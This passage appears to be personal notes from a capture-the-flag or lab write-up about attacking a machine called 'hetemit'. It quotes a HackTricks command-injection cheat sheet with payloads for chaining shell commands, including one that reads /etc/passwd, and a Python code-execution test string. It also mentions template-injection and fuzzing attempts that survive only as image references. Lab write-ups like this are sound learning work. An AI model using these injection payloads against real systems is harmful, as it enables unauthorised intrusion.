 [HackTricks test for Code execution](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/python)
```python
"+str(True)+"
```

Tried CMDi
```bash
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```

Tried sending JSON as maybe there is a connect with the other web servers using the same cookie, but we also cannot POST anything
![](jsonmaybeno.png)

We also do not need the cookie to return the `{'code'}` 
![](wealsodonotneedthecookie.png)

Example attempts include:

SSTI
![](7times7.png)

Fuzzing for CMDi
![](triedfuzzingforcmdi.png)

## Helped-Through Convertion

Its been 6 hours of this machine and I need to finish this and figure what I am missing. Converting this to a Helped-Through.

![](heynow.png)

I did actually try this:
*POST-ing to shred you say returned my hope of enumerating users to shred today. Also the hetemit cookie
![](posttoshreedsyousay.png)
